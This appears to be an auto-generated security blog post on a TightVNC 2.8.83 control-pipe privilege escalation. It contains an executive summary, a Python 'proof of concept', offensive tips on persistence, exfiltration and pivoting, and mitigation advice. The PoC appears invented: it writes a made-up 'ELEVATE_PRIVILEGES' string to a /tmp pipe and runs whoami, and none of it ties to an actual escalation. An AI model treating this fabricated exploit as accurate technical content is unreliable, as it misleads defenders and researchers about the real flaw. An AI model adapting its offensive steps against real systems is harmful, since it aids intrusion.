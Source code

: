 ```yaml
---
title: "TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber Blog]  # Updated category to 'Cyber Blog'
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/tightvnc-exploit.png
---
```


## Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## Technical Analysis

```markdown
# Technical Executive Summary

The vulnerability in question pertains to TightVNC version 2.8.83 and is classified as a local privilege escalation issue due to control pipe manipulation. TightVNC is a popular remote desktop software that allows users to control a remote computer over a network. The vulnerability arises from improper handling of control pipe operations, which can be exploited by a local attacker to gain elevated privileges on the affected system. This kind of vulnerability is critical as it allows an attacker with limited access to escalate their privileges, potentially leading to full system compromise.

# Code Example (Proof of Concept)

Below is a simplified Python script that demonstrates how an attacker might exploit this vulnerability to manipulate the control pipe and escalate privileges. Note that this is purely for educational purposes and should not be used maliciously.

```python
import os
import subprocess

# Define the path to the TightVNC control pipe
control_pipe_path = "/tmp/tightvnc_control_pipe"

# Check if the control pipe exists
if os.path.exists(control_pipe_path):
    print(f"Control pipe found at: {control_pipe_path}")

    # Attempt to open the control pipe and send malicious commands
    try:
        with open(control_pipe_path, 'w') as pipe:
            # Send a command to escalate privileges
            pipe.write("ELEVATE_PRIVILEGES\n")
            print("Command sent to control pipe.")
    except Exception as e:
        print(f"Error writing to control pipe: {e}")
else:
    print("Control pipe not found.")

# Execute a command with elevated privileges
try:
    result = subprocess.run(['whoami'], capture_output=True, text=True)
    print(f"Current user: {result.stdout.strip()}")
except Exception as e:
    print(f"Error executing command: {e}")
```

# Offensive Security Insights

Exploitation of this vulnerability requires the attacker to have local access to the machine where TightVNC is installed. Once access is obtained, the attacker can locate the control pipe used by TightVNC and manipulate it to execute arbitrary commands with elevated privileges. Key techniques include:

- **Local Enumeration**: Identify the presence of TightVNC and locate the control pipe, typically found in temporary directories or under specific user paths.
- **Pipe Manipulation**: Open the control pipe and inject commands that the TightVNC service will execute, potentially leading to privilege escalation.
- **Command Execution**: After privilege escalation, execute further commands to establish persistence, exfiltrate data, or pivot to other parts of the network.

# Defensive Measures

To mitigate the risk posed by this vulnerability, the following defensive measures should be implemented:

1. **Patch Management**: Ensure that TightVNC is updated to the latest version, where this vulnerability has been addressed.
2. **Access Controls**: Limit local access to systems running TightVNC to trusted users only and implement strict user permissions.
3. **Pipe Permissions**: Secure control pipes by setting appropriate file permissions to restrict unauthorized access.
4. **Monitoring and Logging**: Implement monitoring of system logs to detect any suspicious activity related to control pipe access or privilege escalation attempts.
5. **Network Segmentation**: Isolate systems running remote desktop services in secure network segments to limit potential lateral movement by an attacker.

By adopting these measures, organizations can significantly reduce the risk of exploitation and protect their systems from unauthorized access and privilege escalation.
```


📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
